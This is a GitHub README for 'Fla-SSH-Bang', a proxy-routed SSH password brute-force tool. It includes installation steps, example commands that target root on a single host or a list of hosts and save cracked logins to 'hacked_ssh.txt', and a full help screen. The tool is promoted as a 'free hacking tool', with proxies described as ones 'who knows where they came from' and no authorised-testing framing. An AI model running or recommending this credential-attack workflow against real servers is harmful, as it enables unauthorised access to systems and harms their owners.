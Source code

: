 # Fla-SSH-Bang
Lightspeed SSH bruteforce.

This tool is best combined with [Turbo](https://github.com/lilmond/Turbo)

Watch flasshbang2 at work here: https://www.youtube.com/watch?v=ABVO17C8G64

**PS:** The files `coolproxies.txt` and `passlist_2023.txt` are only samples of combo lists. You may use [Proxal](https://github.com/lilmond/Proxal) for fetching fresh proxy lists, and also don't forget to pull better password list from [SecLists](https://github.com/danielmiessler/SecLists).

https://discord.com/invite/Bnf3e8pkyj

follow me for more free hacking tools :3

![image](https://github.com/user-attachments/assets/a45ef85b-e9b7-4c2a-acf2-84d932df7186)

# Where to get proxies?
You may use my proxy list scraper here (Proxal): https://github.com/lilmond/Proxal

# Installation
Ubuntu 20.04
```
git clone https://github.com/lilmond/flasshbang
cd flasshbang
pip install -r requirements.txt
```
Ubuntu 24.04
```
git clone https://github.com/lilmond/flasshbang
cd flasshbang
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

# Usage

## Examples
Single host target
```
python3 flasshbang.py <target ip> -u root -P samples/pass_list.txt -pp samples/good_proxies.txt 
```

Multi-hosts
```
python3 flasshbang.py -M <host list file> -u root -P samples/pass_list.txt -pp samples/good_proxies.txt -o hacked_ssh.txt 
```

# Help
```

               █████▒██▓    ▄▄▄        ██████   ██████  ██░ ██  ▄▄▄▄    ▄▄▄       ███▄    █   ▄████  ▐██▌
             ▓██   ▒▓██▒   ▒████▄    ▒██    ▒ ▒██    ▒ ▓██░ ██▒▓█████▄ ▒████▄     ██ ▀█   █  ██▒ ▀█▒ ▐██▌
             ▒████ ░▒██░   ▒██  ▀█▄  ░ ▓██▄   ░ ▓██▄   ▒██▀▀██░▒██▒ ▄██▒██  ▀█▄  ▓██  ▀█ ██▒▒██░▄▄▄░ ▐██▌
             ░▓█▒  ░▒██░   ░██▄▄▄▄██   ▒   ██▒  ▒   ██▒░▓█ ░██ ▒██░█▀  ░██▄▄▄▄██ ▓██▒  ▐▌██▒░▓█  ██▓ ▓██▒
             ░▒█░   ░██████▒▓█   ▓██▒▒██████▒▒▒██████▒▒░▓█▒░██▓░▓█  ▀█▓ ▓█   ▓██▒▒██░   ▓██░░▒▓███▀▒ ▒▄▄
              ▒ ░   ░ ▒░▓  ░▒▒   ▓▒█░▒ ▒▓▒ ▒ ░▒ ▒▓▒ ▒ ░ ▒ ░░▒░▒░▒▓███▀▒ ▒▒   ▓▒█░░ ▒░   ▒ ▒  ░▒   ▒  ░▀▀▒
              ░     ░ ░ ▒  ░ ▒   ▒▒ ░░ ░▒  ░ ░░ ░▒  ░ ░ ▒ ░▒░ ░▒░▒   ░   ▒   ▒▒ ░░ ░░   ░ ▒░  ░   ░  ░  ░
              ░ ░     ░ ░    ░   ▒   ░  ░  ░  ░  ░  ░   ░  ░░ ░ ░    ░   ░   ▒      ░   ░ ░ ░ ░   ░     ░
                        ░  ░     ░  ░      ░        ░   ░  ░  ░ ░            ░  ░         ░       ░  ░
                                                                     ░
                        Visit  https://github.com/lilmond for more free hacking tools! :3

usage: flasshbang.py [-h] [-p PORT] [-u USERNAME] -P PASSLIST -pp PROXY_LIST [-t THREADS] [-T THREADS_MULTI]
                     [-M HOST_LIST] [-o OUTPUT]
                     [hostname]

Fla-SSH-Bang! Inspired by vanhauser's hydra (also shoutout to him for creating that wonderful tool!). Super fast SSH
bruteforce tool powered by proxies that who knows where they came from. Written in Python! Number 1 language in the
world!

positional arguments:
  hostname              Target IP address.

options:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Target port. Default is set to 22.
  -u USERNAME, --username USERNAME
                        SSH user to attack. The default is set to root.
  -P PASSLIST, --passlist PASSLIST
                        Your favorite password list from SecLists!
  -pp PROXY_LIST, --proxy-list PROXY_LIST
                        Not the size of your penis, but the longer your proxy list is, the better!
  -t THREADS, --threads THREADS
                        Threads, idk how to explain what threads are. But the default is set to 10! The more threads,
                        the faster!
  -T THREADS_MULTI, --threads-multi THREADS_MULTI
                        Threads for multi hosts. The default is 3
  -M HOST_LIST, --host-list HOST_LIST
                        File list of hosts to attack.
  -o OUTPUT, --output OUTPUT
                        Success logins output file.
```
